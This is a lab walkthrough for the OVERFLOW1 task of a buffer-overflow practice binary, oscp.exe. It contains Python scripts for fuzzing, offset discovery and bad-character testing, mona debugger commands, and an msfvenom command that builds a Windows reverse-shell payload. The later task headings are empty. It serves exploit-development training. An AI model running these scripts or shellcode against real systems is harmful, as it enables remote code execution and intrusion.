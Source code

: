 # Buffer Overflow Prep

### oscp.exe - OVERFLOW1
First of all, run Immunity Debugger as an Administrator and open `oscp.exe`. Then on the bar below, type `!mona config -set workingfolder c:\mona\%p` and press enter.<br />
Now the first thing I'm going to do is to find more or less how many bytes I need to send to crash the program. So I'm going to use the following script: 

#!/usr/bin/env python3

    import socket, time, sys
    
    ip = "10.10.70.48"
    
    port = 1337
    timeout = 5
    prefix = "OVERFLOW1 "
    
    string = prefix + "A" * 100
    
    while True:
      try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
          s.settimeout(timeout)
          s.connect((ip, port))
          s.recv(1024)
          print("Fuzzing with {} bytes".format(len(string) + len(prefix)))
          s.send(bytes(string, "latin-1"))
          s.recv(1024)
      except:
        print("Fuzzing crashed at {} bytes".format(len(string) + len(prefix)))
        sys.exit(0)
      string += 100 * "A"
      time.sleep(1)
(Change the IP address according to your instance).<br />
![image](https://github.com/user-attachments/assets/6bdf948e-cdbd-4e8a-ae36-a37dd678f4d9)<br />
I see that the program crashes with 2020 bytes. So now I want to know the offset, the exact number of bytes I need to crash the program i.e. to overflow the EIP. So I'm going to run `msf-pattern_create -l 2300 > pattern.txt`. And now I'll use the following script to find the right offset: 

    import socket
    
    ip = '10.10.70.48'
    port = 1337 
    
    # Change pattern here
    pattern = 'Aa0Aa1.........4Cy5Cy'
    
    string = 'OVERFLOW1 ' + pattern
    
    #send it all
    try: 
            with socket.socket() as s:
                    s.connect((ip,port))
                    print("Sending pattern...")
                    s.send(bytes(string,'latin-1'))
    except:
            print("Failed to connect")
First I need to re-run the program, so click on the following buttons in order: <br />
![image](https://github.com/user-attachments/assets/cf80bf54-9cb8-4b1a-8e1b-d4c55c5bfc68)<br />
Run the script; the program crashes again, this time I'm interested in the contents of the EIP: <br />
![image](https://github.com/user-attachments/assets/f121215f-c53b-46a5-a178-a5eec73ba808)<br />
I can see it's `6F43396E`. To find the exact offset, I run `msf-pattern_offset -l 2300 -q 6F43396E`:<br />
![image](https://github.com/user-attachments/assets/3ce864e3-55a2-41b8-bff2-e527ec2c8d53)<br />
So the offset is `1978`. Now the idea is to overflow the buffer with some shellcode, and overflow the EIP with an address that points to that shellcode. But first, I need to find the bad characters. Those are characters that are not valid for the target machine, and I need to make sure that the shellcode doesn't contain any of them. <br />
First of all, I use the following script to generate a list of characters in hex: 
    
    for x in range(1, 256):
      print("\\x" + "{:02x}".format(x), end='')
    print()

So now I execute the following python code:

    import socket
    
    ip = '10.10.70.48' 
    
    port = 1337 
    
    badchar = '\x01\x02\x03...\xfd\xfe\xff'
    
    string = 'OVERFLOW1 ' + 1978*'A' + 4*'B' + badchar
    
    try: 
            with socket.socket() as s:
                    s.connect((ip,port))
                    print("Sending badchars...")
                    s.send(bytes(string,'latin-1'))
    except:
            print("Failed to connect.")
Notice that we're overwriting the EIP with 4 B's, and then sending the list of bad characters.ls
So I rerun the program and the script: <br />
![image](https://github.com/user-attachments/assets/57739da3-ab3e-4289-a258-d3c4387788dc)<br />
As shown in the image above, the EIP is overwritten with 4 Bs, and the ESP is overwritten with `01B3FA30`. Now to check bad characters, first run `!mona bytearray -b "\x00"`. This will create a file containing the list of characters in hex. Then run `!mona compare -f C:\mona\oscp\bytearray.bin -a 01B3FA30`.<br />
![image](https://github.com/user-attachments/assets/adb4df98-43e9-47b2-9819-19437d7449c2)<br />
The bad characters found by mona are `00,07,2e,a0`. Now that I know the bad characters I can finally create a shellcode: `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=9001 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c`:<br />
![image](https://github.com/user-attachments/assets/2dddc6de-d074-44c2-91fc-64ca0f1d5f32)<br />
So the code is almost done. I only need to select a valid return address. To do that, I add a NOP sled of 32 bytes and run the program, then I want to find this NOP sled in the memory dump: <br />
![image](https://github.com/user-attachments/assets/cb1856e5-da58-42d2-995a-4b64db73fbb8)<br />
There it is. All I need to do now is to select one of those addresses that has NOPs(\x90), for example I'll take `019EFA38`:

### oscp.exe - OVERFLOW2

### oscp.exe - OVERFLOW3

### oscp.exe - OVERFLOW4

### oscp.exe - OVERFLOW5

### oscp.exe - OVERFLOW6

### oscp.exe - OVERFLOW7

### oscp.exe - OVERFLOW8

### oscp.exe - OVERFLOW9

### oscp.exe - OVERFLOW10
